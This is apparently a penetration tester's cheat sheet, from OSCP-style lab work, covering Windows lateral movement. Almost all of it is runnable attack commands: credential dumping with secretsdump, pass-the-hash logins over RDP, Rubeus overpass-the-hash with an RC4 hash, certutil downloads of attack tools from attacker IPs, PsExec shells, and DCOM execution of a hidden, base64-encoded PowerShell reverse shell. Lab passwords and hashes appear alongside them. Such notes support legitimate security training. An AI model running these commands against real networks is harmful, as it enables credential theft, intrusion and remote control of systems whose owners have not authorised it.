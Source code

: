 ```jsx
secretsdump.py hutch.offsec/administrator:'9%GR6qN[.#)x4i'@192.168.219.122
```

```jsx
impacket-mssqlclient sql_svc@10.10.137.148 -windows-auth
```

[https://github.com/Mr-Un1k0d3r/SCShell](https://github.com/Mr-Un1k0d3r/SCShell)

## RDP

```jsx
xfreerdp /u:offsec /d:oscp.lab /p:Seawater! +clipboard /cert:ignore
xfreerdp /u:offsec /d:oscp.lab /pth:<hash> +clipboard /cert:ignore
```

### TTY windows

[ConPtyShell/Invoke-ConPtyShell.ps1 at master · antonioCoco/ConPtyShell](https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1)

## Overpass-the-hash

```jsx
certutil -split -urlcache -f http://192.168.45.228/Rubeus.exe
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\Rubeus.exe asktgt /domain:access.offsec /user:svc_mssql /password:trustno1 /ptt
# view tickets
klist
# get cmd shell
certutil -split -urlcache -f http://192.168.45.214/PsExec.exe
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```

## Powershell Remoting

```jsx
Invoke-Command -ComputerName DC01 -ScriptBlock {ipconfig}

$DC01Session = New-PSSession -ComputerName 'DC01'
Enter-PSSession -Session $DC01Session
```

## DCOM

```jsx
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```
